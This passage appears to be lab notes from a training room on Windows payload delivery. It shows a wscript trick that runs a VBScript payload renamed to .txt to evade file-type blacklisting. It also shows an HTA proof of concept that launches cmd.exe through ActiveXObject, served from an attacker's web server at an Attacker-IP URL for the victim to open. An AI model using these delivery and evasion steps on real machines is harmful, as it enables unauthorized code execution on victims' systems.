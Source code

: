 As a result, the Windows calculator will appear on the Desktop.

### 1.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

#### Another trick. If the VBS files are `blacklisted`, then we can rename the file to `.txt` file and run it using `wscript` as follows,

`c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt`

#### We can replace the calc.exe to cmd.exe to open as a current user.

-------------------------------------------------------

## An HTML Application - HTA

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 

In the following example, we will use an [ActiveXObject](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute `cmd.exe`. Consider the following HTML code.

``` HTML
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

`python3 -m http.server 8090`

On the victim machine, visit the malicious link using Microsoft Edge, http://Attacker-IP:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.

### 2.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Once we press `Run`, the `payload.hta` gets executed, and then it will invoke the `cmd.exe`. The following figure shows that we have successfully executed the `cmd.exe`.
